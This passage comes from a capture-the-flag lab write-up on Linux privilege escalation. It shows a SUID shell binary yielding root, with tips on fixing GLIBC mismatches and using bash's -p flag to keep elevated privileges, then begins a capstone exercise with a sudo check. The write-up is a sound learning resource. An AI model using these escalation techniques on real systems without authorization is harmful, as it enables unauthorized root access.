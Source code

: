 Let's run:

```bash
$ ./a.out
root@ip-10-10-50-1:/home/ubuntu/sharedfolder# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```

**NOTE**

If we get this error:

```bash
$ ./shell
./shell: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./shell)
```

Probably GLIBC on our attacker machine is too new.

We need to compile C code with previous version:

```bash
# objdump -T ./a.out

./a.out:     file format elf64-x86-64

DYNAMIC SYMBOL TABLE:
0000000000000000      DF *UND*  0000000000000000 (GLIBC_2.2.5) system
0000000000000000      DF *UND*  0000000000000000 (GLIBC_2.2.5) __libc_start_main
0000000000000000  w   D  *UND*  0000000000000000              __gmon_start__
0000000000000000      DF *UND*  0000000000000000 (GLIBC_2.2.5) setgid
0000000000000000      DF *UND*  0000000000000000 (GLIBC_2.2.5) setuid
```

**NOTE 2**



If our shell will NOT run as root, probably we need to add `-p`

*Running programs with setuid is inherently insecure and when the shell executes the current UID is checked vs. the SUID and if they don't match the shell ignores the SUID and runs as the UID. Adding the `-p` tells the shell not to reset the UID to the current one.*

https://security.stackexchange.com/questions/263601/suid-binary-doesnt-work-tryhackme





## Capstone challenge

we gain initial access to target system as "leonard" user.

### sudo

```bash
[leonard@ip-10-10-111-57 ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for leonard:
Sorry, user leonard may not run sudo on ip-10-10-111-57.
[leonard@ip-10-10-111-57 ~]$
```
